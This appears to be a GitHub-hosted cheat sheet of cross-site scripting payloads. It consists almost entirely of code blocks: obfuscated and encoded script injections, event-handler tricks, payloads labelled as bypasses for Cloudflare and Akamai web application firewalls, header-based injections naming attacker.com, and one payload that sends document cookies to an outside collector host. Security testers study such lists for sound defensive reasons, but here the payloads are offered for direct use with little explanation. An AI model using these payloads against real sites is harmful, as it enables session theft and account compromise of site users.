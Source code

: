# Custom XSS Payloads
```javascript
<img src=1111111><img src=1111111><a href="javascript:alert(document.domain)">axxx</a><svg></svg><img src=1>
<script /***/>/***/confirm(document.cookie,document.domain)/***/</script /***/
/</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
<svg><script x:href='https://dl.dropbox.com/u/13018058/js.js' {Opera}
<a href="javascript:void(0)" onmouseover=&NewLine;javascript:alert(document.domain,document.cookie)&NewLine;>X</a>
<iframe onload="javascript:prompt(document.domain)" id="hello" role"world">Hello google
"><script>alert(String.fromCharCode(66, 108, 65, 99, 75, 73, 99, 101))</script>
returnuri=%09Jav%09ascript:alert(document.domain)
var onskeywords = 'hello';onload=prompt(0);
"hello" onmouseover=prompt(0) world=""
test"t"\t/t%3Ct%3Et
"â™ˆ<<sVg/onloadâ™ˆ=/svg/onload=svg/onmouseOver=confirm'1'><!--â™ˆ//="
/><svg src=x onload=confirm(document.domain);>
<script>alert(String.fromCharCode(88, 115, 115, 32, 66, 121, 32, 79, 108, 100, 77, 111, 104, 97, 109, 109))</script>
<svg/onload=alert(document.domain)>")
<<!<script>iframe src=javajavascriptscript:alert(document.domain)>
"><svg onload=alert`XSS`>
foo style=animation-name:gl-spinner-rotate onanimationend=alert(1)  -- apply this in profile name section
">svg onx=() onload=(location.href='<BIN>/?mycookies='+document['cookie'])()>
<a"/aonclick=(confirm)()>click
😎<<svg/onload😎=/svg/onload=svg/onmouseOver=confirm'1'><!--😎//="
onhashchange=setTimeout;
Object.prototype.toString=RegExp.prototype.toString;
Object.prototype.source=location.hash;
location.hash=null
'-(a=alert,b="_Yooo!_",[b].find(a))-'
%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E
<svg%09%0a%0b%0c%0d%0a%00%20onload=alert(1)>
<iframe src=%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aalert(0)">
<script%20~~~>\u0061\u006C\u0065\u0072\u0074''</script%20~~~>
<svg onload='new Function'["_Y000!_"].find(al\u0065rt)''>
<sCRipT>alert(1)</sCRiPt>
<script>%0aalert(1)</script>
<scr<script>ipt<alert(1);</scr<script>ipt>
<input onfocus="alert('xss');" autofocus>
<a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pi&Tab;pt&Tab;alert&lpar;1&rpar;">
<svg•onload=alert(1)>
<script>alert?.(document?.domain)</script>
"<>onauxclick<>=(eval)(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=='))>+<sss
<x/onpointerRawupdate=confirm%26Ipar;1)//x
<script src=//⑮.₨></script>
img{background-image:url('javascript:alert()')}
<svg/onload=eval(atob('YWxlcnQoJ1hTUycp'))>
TestPayload&lt;/a&gt;&lt;a href="javascript:alert(1)"&gt;ClickHere&lt;/a&gt; 
<img src=`xx:xx`onerror=alert(1)>
<div/onmouseover='alert(1)'> style="x:">
\";alert('XSS');//
"autofocus/onfocus=alert(1)//
'-alert(1)-'
"><img class="emoji" alt="😯" src="x" /><svg
">'><details/open/ontoggle=confirm(1337)>
%<script>3cscript%<script>3ealert(1)%<script>3c/script%<script>3e
<input disabled=disabled onbeforecopy=alert(1) value=copyme>
</textarea><img src=x onerror=”var pop=’ALERT(document.cookie);’; eval(pop.toLowerCase());”
</script><script>alert('xElkomy')</script>
OnMoUsEoVeR=prompt(/hacked/)//
<b onmouseover=alert('Wufff!')>click me!</b>
"><script>propmt("mamunwhh")</script>
"><script>alert(document.cookie)</script>
/><svg src=x onload=confirm("1337");>
&quot;&gt;&lt;img src=x onerror=confirm(document.domain);&gt;
```
## XSS via Reflected Headers
```http
X-Original-URL: https://attacker.com/
X-Original-URL: test//test\
X-Original-URL: https:\\samcurry.net/please//work
True-Client-IP: <h1>XSS</h1></center><script>alert(document.domain)</script>
```
## XSS payload with Alert Obfuscation, for bypass RegEx filters
```js
<img src="X" onerror=top[8680439..toString(30)](1337)>
```

## Logical assignment operators in JavaScript
```js
window&&=(window&&=opener||=alert)?.(1??0,)
```
## Which results alert(1)
```js
𒀀='',𒉺=!𒀀+𒀀,𒀃=!𒉺+𒀀,𒇺=𒀀+{},𒌐=𒉺[𒀀++],
𒀟=𒉺[𒈫=𒀀],𒀆=++𒈫+𒀀,𒁹=𒇺[𒈫+𒀆],𒉺[𒁹+=𒇺[𒀀]
+(𒉺.𒀃+𒇺)[𒀀]+𒀃[𒀆]+𒌐+𒀟+𒉺[𒈫]+𒁹+𒌐+𒇺[𒀀]
+𒀟][𒁹](𒀃[𒀀]+𒀃[𒈫]+𒉺[𒀆]+𒀟+𒌐+"(𒀀)")()
```
## RXSS
```js
%22%3Cimg%2F**%2Fsrc%3D%22x%22%2F**%2Fonx%3D%22%22%2F**%2Fonerror%3D%22alert%60xss%60%22%3Ef9y60 --encoded
"<img/**/src="x"/**/onx=""/**/onerror="alert`xss`">f9y60 --decoded
OnMoUsEoVeR=prompt(/hacked/)//
```

## Clourflare XSS bypass
```js
<a"/onclick=(confirm)()>Click Here!
%2sscript%2ualert()%2s/script%2u
<svg onload=alert%26%230000000040"1")
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
```

## When you find input field which allows " (quotes), try this payload:
```js
"autofocus onfocus=alert(1)//
```
-> Doesn't work

**Try this**
```js
"type%3d"text"autofocus%20onfocus%3d"alert(1)"
```
-> Works

## Akami WAF XSS Bypass
```js
xhzeem*/eval?.(value+/()/.source)//"><input value=confirm autofocus onfocus='/*"
```
![img](https://pbs.twimg.com/media/EyDDoO7WYAEJMr6?format=jpg&name=small)

Limited case Akamai WAF bypass
```js
<xhzeem/x=" onmouseover=eva&#x6c;?.(id+/(document.domain)/.source) id=confirm>
```
Works in cases where double quotes are escaped 

`<xhzeem/x=\" ....>`

can also work with single quotes (change it in the payload)
![img](https://pbs.twimg.com/media/Ex-cjUQXIAIRw-y?format=jpg&name=small)

## Stored XSS
```js
&quot;&gt;&lt;img src=x onerror=confirm(document.domain);&gt;
```

## XSS via xml
```xml
<a:script xmlns:a="http://www.w3.org/1999/xhtml">alert(document.domain)</a:script>
```
